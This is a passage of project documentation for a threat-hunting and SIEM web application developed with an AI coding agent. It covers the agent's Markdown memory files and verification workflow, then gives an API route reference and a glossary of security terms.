The fix is to give the agent a small set of Markdown files as persistent memory, plus checks that catch disagreement.

| File | Role |
|---|---|
| `AGENTS.md` | Project rules: stack, commands, hard rules, working protocol, definition of done. Under 12,000 characters |
| `GEMINI.md` | Antigravity-specific behaviour: plan first, verify in the terminal and browser, terminal safety |
| `docs/DATA_CONTRACT.md` | **Source of truth** for fields and allowed values, plus the change procedure |
| `docs/PLAN.md` | Living tracker: done, written-but-unverified, not started |
| `docs/TESTING.md` | How to verify; the real-Elasticsearch checklist |
| `docs/ARCHITECTURE.md`, `docs/DECISIONS.md` | Boundaries and the reasons behind choices |
| `docs/PROMPTS.md` | Ready-to-paste prompts: kickoff, first real run, tasks, rules, review, debugging |

**How to use it:** open the repository folder as the workspace, paste the kickoff prompt, then work one `PLAN.md` task at a time. Review the agent's plan before it edits, and require a Verification report with real command output every time.

**Triangulation is automated, not hoped for.** `tests/test_contract.py` compares the contract against the index template, the rules, the ingest pipeline, the seed data and the frontend. A typo in a rule value or a misspelled field in the dashboard fails the build. Run the review prompt (prompt 6) in a fresh conversation before merging, so the agent does not defend its own earlier work.

**Honest limits:** these files reduce drift but do not guarantee correct code. Tool-specific details (rules folder names, per-file size limits, available settings) change between Antigravity versions, so check its current docs. Root `AGENTS.md` is the safest, most widely read location.

---

## Appendix A: API reference

All routes are under `/api/v1`. Roles: V = viewer, A = analyst, Ad = admin.

| Method and path | Role | Purpose |
|---|---|---|
| `POST /auth/login` | none | Get a token (form fields `username`, `password`) |
| `GET /auth/me` | V | Current user |
| `GET, POST /auth/users` | Ad | List / create users |
| `POST /search/events` | V | Lucene search with time range |
| `GET /search/pivot?value=` | V | Everything about one indicator |
| `GET /ioc/lookup?value=&refresh=` | A | Threat-intel verdict |
| `GET, POST /watchlist`, `DELETE /watchlist/{id}` | V / A / A | Manage the hunt list |
| `GET /stats/overview` | V | Dashboard numbers |
| `GET /rules` | V | List detection rules |
| `POST /detections/run?lookback_minutes=` | A | Run rules now, or retro-hunt up to 7 days |
| `GET /alerts`, `GET, PATCH /alerts/{id}` | V / V / A | Alerts and status changes |
| `GET /incidents`, `GET /incidents/{id}` | V | Correlated incidents with timeline |
| `GET, POST /cases`, `GET, PATCH /cases/{id}` | V / A | Cases |
| `POST /cases/{id}/alerts/{alert_id}` | A | Link an alert |
| `POST /cases/{id}/evidence` | A | Add note, log event or IOC evidence |
| `POST /cases/{id}/evidence/file` | A | Upload a file (max 10 MB) |
| `GET /cases/{id}/evidence/{eid}/download` | V | Download a file |
| `POST /cases/{id}/findings` | A | Record a finding |
| `GET /cases/{id}/timeline` | V | Chain of custody |
| `GET /cases/{id}/report?format=pdf\|md` | V | Investigation report |
| `GET /audit` | Ad | Global audit log |

## Appendix B: Glossary

| Term | Meaning |
|---|---|
| **IOC** | Indicator of Compromise: an IP, domain, URL or file hash linked to malicious activity |
| **Threat hunting** | Proactively searching for attackers who bypassed automated alerts |
| **SIEM** | Security Information and Event Management: collects logs, detects and alerts |
| **ECS** | Elastic Common Schema: a standard naming convention for log fields |
| **MITRE ATT&CK** | A catalogue of attacker tactics (goals) and techniques (methods), such as T1110 |
| **Sigma** | A vendor-neutral format for detection rules |
| **Sysmon** | Windows tool that logs detailed process, network and file activity |
| **Retro-hunt** | Running detection rules over older data, for example after a new threat is announced |
| **Chain of custody** | The documented history of who handled evidence and when |
| **False positive** | An alert on activity that is actually harmless |
